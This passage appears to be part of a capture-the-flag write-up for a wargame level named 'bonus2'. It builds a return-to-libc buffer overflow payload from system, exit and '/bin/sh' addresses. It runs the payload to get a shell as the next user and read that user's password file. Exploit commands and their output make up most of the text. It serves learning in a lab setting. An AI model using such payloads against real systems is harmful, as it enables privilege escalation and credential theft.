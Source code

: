 The address of "exit" is "0xb7e5ebe0"

Let's build the payload

	("B" * 18) + (EIP = system address) + (RET = exit address) + ("/bin/sh" address)

	python -c 'print "B"*18+"\x60\xb0\xe6\xb7"+"\xe0\xeb\xe5\xb7"+"\x58\xcc\xf8\xb7"'

Exploit!

	$ LANG=fi ./bonus2 $(python -c 'print "A"*200') $(python -c 'print "B"*18+"\x60\xb0\xe6\xb7"+"\xe0\xeb\xe5\xb7"+"\x58\xcc\xf8\xb7"')
	Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB`�����X���

	$ whoami
	bonus3

	$ cat ~bonus3/.pass

Good!
